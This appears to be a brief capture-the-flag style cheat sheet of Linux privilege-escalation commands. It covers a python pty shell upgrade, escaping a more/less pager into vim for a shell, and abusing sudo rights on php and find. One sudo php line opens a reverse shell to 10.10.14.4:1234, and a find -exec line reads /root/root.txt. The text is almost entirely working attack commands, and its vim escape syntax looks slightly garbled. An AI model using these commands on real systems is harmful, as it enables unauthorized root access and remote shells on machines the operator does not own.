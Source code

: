 # privilege escalation methods

## improving shell

python3 -c 'import pty;pty.spawn("/bin/bash")'
script /dev/null -c bash

## more|less > vi

if something is using more/less as an elevated user make the window smaller so it activates more or less
press `v` drops us in vim
using `:#!/bin/bash` we can get a shell

## sudo -l: shows php

sudo /usr/bin/php -r "system('whoami');"

sudo /usr/bin/php -r '$sock=fsockopen("10.10.14.4",1234);exec("/bin/sh <&3 >&3 2>&3");'

## sudo -l: shows find

sudo /usr/bin/find /root/root.txt -exec cat {} \;
